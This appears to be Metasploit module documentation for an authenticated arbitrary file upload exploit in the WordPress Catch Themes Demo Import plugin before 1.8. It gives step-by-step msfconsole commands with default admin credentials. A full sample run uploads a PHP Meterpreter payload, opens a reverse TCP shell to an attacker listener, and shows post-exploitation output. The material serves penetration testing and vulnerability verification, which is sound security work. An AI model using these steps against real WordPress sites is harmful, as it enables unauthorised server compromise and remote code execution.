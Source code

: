 ## Vulnerable Application

The Wordpress Plugin Catch Themes Demo Import versions < 1.8 are vulnerable to authenticated
arbitrary file uploads via the import functionality found in the `~/inc/CatchThemesDemoImport.php`
file, due to insufficient file type validation.

Of note, the check functionality may not detect the version of `Catch Themes Demo Import` due
to the readme file not containing the proper version number line.

Re-exploitation may need a reboot of the server, or to wait an arbitrary timeout.

## Verification Steps

1. Install the plugin to wordpress
1. Start msfconsole
1. Do: `use exploits/multi/http/wp_catch_themes_demo_import`
1. Do: `set rhosts`
1. Do: `set username`
1. Do: `set password`
1. Do: `run`
1. You should get a shell.

## Options

### USERNAME

Username of the account which has post privileges. Defaults to `admin`.

### PASSWORD

Password of the account which has post privileges. Defaults to `admin`

## Scenarios

### Wordpress Catch Themes Demo Import 1.6.1 on Wordpress 5.4.8 running on Ubuntu 20.04

```
resource (catch_theme.rb)> use exploits/multi/http/wp_catch_themes_demo_import
[*] Using configured payload php/meterpreter/reverse_tcp
resource (catch_theme.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (catch_theme.rb)> set username admin
username => admin
resource (catch_theme.rb)> set password admin
password => admin
resource (catch_theme.rb)> set verbose true
verbose => true
resource (catch_theme.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (catch_theme.rb)> run
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/catch-themes-demo-import/readme.txt
[!] The service is running, but could not be validated. Could not identify the version number
[*] Ajax Nonce: 11a5dba010
[*] Uploading payload filename: Y5LBjS3t.php
[*] Triggering payload at wp-content/uploads/2021/12/Y5LBjS3t.php
[*] Sending stage (39282 bytes) to 2.2.2.2
[+] Deleted Y5LBjS3t.php
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:34002 ) at 2021-12-21 20:01:30 -0500

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : wordpress2004
OS          : Linux wordpress2004 5.4.0-52-generic #57-Ubuntu SMP Thu Oct 15 10:57:00 UTC 2020 x86_64
Meterpreter : php/linux
```
